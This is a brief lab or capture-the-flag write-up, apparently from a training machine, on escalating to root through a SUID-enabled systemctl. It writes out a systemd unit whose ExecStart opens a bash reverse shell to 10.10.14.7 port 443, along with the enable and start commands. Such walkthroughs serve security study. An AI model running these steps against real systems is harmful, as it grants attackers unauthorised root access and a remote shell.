 ![[Pasted image 20240903190447.png]]

Using linpeas.sh, found /bin/systemctl has SUID bit set

- Created root.service in /home/pepper/root.service
```
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'

[Install]
WantedBy=multi-user.target
```
- Enabling the root.service
```bash
/bin/systemctl enable /home/pepper/root.service
```
- Start root.service
```bash
/bin/systemctl start root
```
- Got shell as root 
![[Pasted image 20240903191030.png]]
